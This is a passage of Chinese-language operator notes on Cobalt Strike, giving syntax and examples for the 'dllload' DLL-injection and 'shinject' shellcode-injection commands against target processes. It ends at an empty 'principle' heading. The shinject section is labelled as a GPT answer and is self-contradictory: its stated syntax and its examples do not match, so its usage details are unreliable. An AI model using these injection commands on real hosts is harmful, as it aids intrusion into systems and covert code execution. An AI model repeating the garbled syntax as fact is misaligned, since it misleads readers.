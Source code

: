 正常方式注入dll文件

~~~ shell
dllload <路径\到\dll文件>
~~~



示例

~~~ tex
dllload C:\path\to\your.dll
~~~

> `<路径\到\dll文件>` 是指向目标要加载的 DLL 文件的完整路径，需确保替换为实际的 DLL 文件路径。

执行相应的命令后，Cobalt Strike 将在目标系统上执行 DLL 注入操作，将 DLL 代码加载到目标进程中，这是正常的dll注入方法



## shinject命令

注入shellcode

~~~ shell
shinject [pid] <x86|x64> [/path/to/my.bin]
~~~



**用法(GPT回答)**

在Cobalt Strike中，`shinject`命令用于在目标主机上执行Shellcode注入。以下是使用`shinject`命令的语法：

```tex
shinject <PID> <x86|x64> [/path/to/my.bin] [listener] [arch] [method]
```

参数说明：

- `<PID>`：要注入Shellcode的目标进程ID。
- <x86|x64>：目标机的架构。
- [/path/to/my.bin]：要注入的shellcode文件
- `[listener]`：可选参数，指定用于接收回连的监听器名称。
- `[arch]`：可选参数，指定目标主机的体系结构，如x86、x64等。
- `[method]`：可选参数，指定注入的方法，如`CreateThread`、`QueueUserAPC`等。

例如，要将Shellcode注入到进程ID为1234的目标主机中，可以执行以下命令：

```tex
shinject 1234
```

如果你想使用特定的监听器和方法进行注入，可以提供相应的参数。例如，将Shellcode注入到进程ID为1234的目标主机中，并使用名为`listener1`的监听器以及`QueueUserAPC`方法，可以执行以下命令：

```tex
shinject 1234 listener1 x86 QueueUserAPC
```

请注意，在使用`shinject`命令之前，你需要先设置好监听器并生成合适的Shellcode。确保Shellcode与目标主机的体系结构相匹配，以确保成功注入和执行。



**原理(GPT回答)**
